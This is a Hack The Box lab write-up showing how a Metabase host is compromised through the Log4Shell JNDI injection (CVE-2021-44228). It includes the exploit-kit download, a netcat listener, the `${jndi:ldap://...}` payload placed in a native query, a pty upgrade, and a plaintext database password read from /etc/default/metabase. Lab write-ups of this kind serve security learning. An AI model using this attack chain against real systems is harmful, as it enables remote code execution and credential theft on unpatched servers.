 #+title Log4shell
#+author: Alex Crom

* Synopsis
Remote Code Execution vulnerability in apache Log4j2 ≤= 2.14.1

Allows attackers to execute arbitrary system command by loading code from an attacker-controlled LDAP server via the Java Naming Directory Interface JNDI reported by [[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228][CVE-2021-44228]]
[[https://www.metabase.com/][Metabase]] is a ~BI tool~ with friendly UX and intergrated tooling to let your company explore data on their own. This Hack the box machine is considerd as *Very Easy*
** :scroll: TL:DR
Scan ports and use basic enumeration.
find *user* and *root flag* trough remote code execution. Therefore use this  [[https://github.com/pimps/JNDI-Exploit-Kit/][exploit]] and setup ~netcat~ using kali linux as our OS.
* :rocket: getting started
We add the ~domain~ and ~ip~ to ~/etc/hosts~.

#+begin_src bash
echo "10.10.69.123 metabase.htb" | sudo tee -a /etc/hosts

#+end_src

* enumeration
As we start with a ~nmap~ scan it revails a nginx server listening on port 80 and we are redirected to metabase.htb.

We also look for something interesting in source code with curl
#+begin_src bash
curl -v metabase.htb

#+end_src


* Expliotation
We found the information here for JNDI injections vulnerabilities. Public expliots are available. We look for  a suitable [[https://github.com/pimps/JNDI-Exploit-Kit/][exploit]] and download the available compiled version to our kali linux:
#+begin_src bash
wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar

#+end_src

* Privilege Escalation
Getting prepared for privilege escalation we have to setup netcat and we listen on port 4444.
#+begin_src bash
nc -lvnp 4444

#+end_src

Now we can run this exploit by specifiying the LDAP server adress IP:port with the -L option and the adress of our listener with the -S option:
#+begin_src bash
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 10.10.14.7:1389 -S 10.10.14.22:4444

#+end_src

We pick the LDAP payload targeting with trustURLCodebase=true and type the following string to the Native query Matabase page

NOTE: While suggesting otherwise the option JDK 1.8 was not working for me.

We add a query in sample data:
#+begin_src bash
${jndi:ldap://10.10.17.169:1389/57sbhf}

#+end_src

#+caption: db query
[[../img/db_query.png]]

Now we see in our terminal a succesfull privilege escalation en try to upgrade our shell to a fully interactive pty. Due to the fact python3 is installed on the host, we run:
#+begin_src bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

#+end_src

We can now search for files owned by the *metabase* group:
#+begin_src bash
find / -group metabase -ls 2>/dev/null | grep -v /proc

#+end_src
A password is found in plain text in a metabase database /etc/default/metabase:
#+begin_src bash
cat /etc/default/metabase
MB_DB_PASS=fHj3sxZ0.f

#+end_src

* Wrap it up!
the user flag is found in /opt/metabase/user.txt
The root flag is found in root/root.txt

** :mortar_board: Lessons learned
1. JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints.
2. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.
3. Make proper notes, I did not make all the notes carefully :bowtie:
4. Metabase is an open-source Business Intelligence tool and helps you question your data and display answers in usefull formats and creating dashboards. 
